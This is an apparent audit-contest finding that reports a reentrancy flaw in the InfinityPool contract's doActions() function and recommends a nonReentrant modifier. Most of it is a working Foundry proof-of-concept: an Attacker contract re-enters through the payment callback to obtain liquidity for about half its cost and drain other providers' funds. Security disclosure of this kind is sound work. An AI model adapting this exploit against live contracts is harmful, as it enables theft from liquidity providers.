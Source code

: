 # An attacker can re-enter the InfinityPool contract because `doActions()` doesn't have a reentrancy protection
Severity: High ≈ Likelihood: High × Impact: High

## Finding Description
The `InfinityPool` contract, which manages liquidity for token pairs, is vulnerable to a critical reentrancy attack.

The `doActions()` function lacks proper safeguards, allowing malicious actors to repeatedly call it before the previous execution completes. This vulnerability can be exploited to drain the contract's funds entirely.

The attack is feasible with minimal resources and can be executed at any time by any user interacting with the contract.

## Impact Explanation
In `InfinityPool.doActions` during the final call to `makeUserPay()`, the pool calls the `infinityPoolPaymentCallback()` function on `msg.sender` and expects a certain amount to be transferred to the pool during the callback. For example, this could exploited to add X liquidity while only providing X/2 required amount of tokens as demonstrated by the poc.

This would lead to significant loss of funds and pool insolvency therefore the impact is high.

## Likelihood 
The likelihood is high as an attack is easy and highly incentivized.

## Proof of Concept
Please copy this file as `test/cantina/Reentrancy_PoC.t.sol` and run with `forge test --mt test_reentrancy_doactions`.

It shows an example scenario in which a hypothetical attacker, Alice, steals the liquidity provided by Bob.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {InfinityPoolsBase} from "test/cantina/InfinityPoolsBase.t.sol";
import {console2 as console} from "forge-std/Test.sol";

import {IInfinityPoolPaymentCallback} from "src/interfaces/IInfinityPoolPaymentCallback.sol";
import {IInfinityPool} from "src/interfaces/IInfinityPool.sol";
import {Token} from "src/mock/Token.sol";
import {TUBS, EPOCH} from "src/Constants.sol";
import {Quad, fromInt256, fromUint256} from "src/types/ABDKMathQuad/Quad.sol";

contract POC is InfinityPoolsBase {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function setUp() public override {
        super.setUp();

        token0.mint(bob, 9999624237664420591);
        token1.mint(bob, 9999624237664420591);

        Quad liquidity = fromUint256(10);

        vm.startPrank(bob);
        token0.approve(address(infinityPool), 9999624237664420591);
        token1.approve(address(infinityPool), 9999624237664420591);
        infinityPool.pour(0, TUBS, liquidity, "");
        vm.stopPrank();
    }

    function test_reentrancy_doactions() external {
        token0.mint(alice, 999962423766442060);
        token1.mint(alice, 999962423766442060);

        vm.startPrank(alice);

        Attacker attacker = new Attacker(alice, infinityPool, token0, token1);

        token0.transfer(address(attacker), token0.balanceOf(alice));
        token1.transfer(address(attacker), token1.balanceOf(alice));
        attacker.perform();

        vm.stopPrank();

        vm.warp(uint256(EPOCH) + 3 days);

        vm.startPrank(alice);
        attacker.drain(1);
        attacker.drain(2);
        vm.stopPrank();

        vm.warp(uint256(EPOCH) + 12 days);

        vm.startPrank(alice);
        attacker.collect(1);
        attacker.collect(2);
        vm.stopPrank();

        // the balance of Alice is almost x2 after removing the liquidity
        assert(token0.balanceOf(alice) == 1996018744315046452);
        assert(token1.balanceOf(alice) == 1996018744315046452);
    }
}

contract Attacker is IInfinityPoolPaymentCallback {
    address owner;
    IInfinityPool infinityPool;
    Token token0;
    Token token1;

    constructor(address _owner, IInfinityPool _infinityPool, Token _token0, Token _token1) {
        owner = _owner;
        infinityPool = _infinityPool;
        token0 = _token0;
        token1 = _token1;
    }

    function perform() external {
        Quad liquidity = fromUint256(1);
        infinityPool.pour(0, TUBS, liquidity, abi.encode(true, int256(0), int256(0)));
    }

    function drain(uint256 id) external {
        infinityPool.drain(id, owner, "");
    }

    function collect(uint256 id) external {
        infinityPool.collect(id, owner, "");
    }

    function infinityPoolPaymentCallback(int256 expectedToken0, int256 expectedToken1, bytes calldata data) external {
        (bool marker, int256 prevExpected0, int256 prevExpected1) = abi.decode(data, (bool, int256, int256));

        if (marker) {
            Quad liquidity = fromUint256(1);

            IInfinityPool.Action[] memory actions = new IInfinityPool.Action[](1);
            actions[0] = IInfinityPool.Action.POUR;

            bytes[] memory datas = new bytes[](1);
            datas[0] = abi.encode(0, TUBS, liquidity);

            infinityPool.doActions(actions, datas, address(this), abi.encode(false, expectedToken0, expectedToken1));
        } else {
            token0.transfer(address(infinityPool), uint256(prevExpected0));
            token1.transfer(address(infinityPool), uint256(prevExpected1));
        }
    }

}
```

## Recommendation
Add the `nonReentrant` modifier to the `doActions()` function
